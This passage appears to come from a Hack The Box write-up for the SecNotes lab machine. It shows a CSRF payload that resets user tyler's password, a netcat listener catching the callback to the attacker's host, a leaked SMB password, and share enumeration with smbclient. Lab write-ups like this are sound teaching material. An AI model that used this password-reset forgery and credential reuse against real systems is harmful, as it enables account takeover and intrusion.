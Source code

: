 So i'll try performing a cross site request forgery attack CSRF

```
Payload:
http://10.10.10.97/change_pass.php?password=plshackme&confirm_password=plshackme&submit=submit
http://10.10.16.7/reset

``` 

I'll a netcat listner on port 80 and send the payload as the message in hopes that it will reset the user `tyler` password to `plshackme`

On sending it boom we get a callback

Why i made the server send a connection back to me is to know if it worked

```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Secnotes]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.97] 51080
GET /reset HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17134.228
Host: 10.10.16.7
Connection: Keep-Alive
```

Now lets try loggin as `tyler:plshackme`

And it worked
![image](https://user-images.githubusercontent.com/113513376/215295437-7c0e0570-19c6-4ab8-bc2c-f54bc3d99690.png)


On checking the notes we see a credential for smb `\\secnotes.htb\new-site tyler / 92g!mA8BGjOirkL%OG*&`
![image](https://user-images.githubusercontent.com/113513376/215295490-eca2f0e6-5cc3-4a40-aa52-ac00b03d6613.png)

Now lets try the credential over smb `tyler:92g!mA8BGjOirkL%OG*&`

```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Secnotes]
└─$ smbclient -L 10.10.10.97 -U tyler
Password for [WORKGROUP\tyler]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        new-site        Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.97 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```

Now i'll connect to the `new-site` share
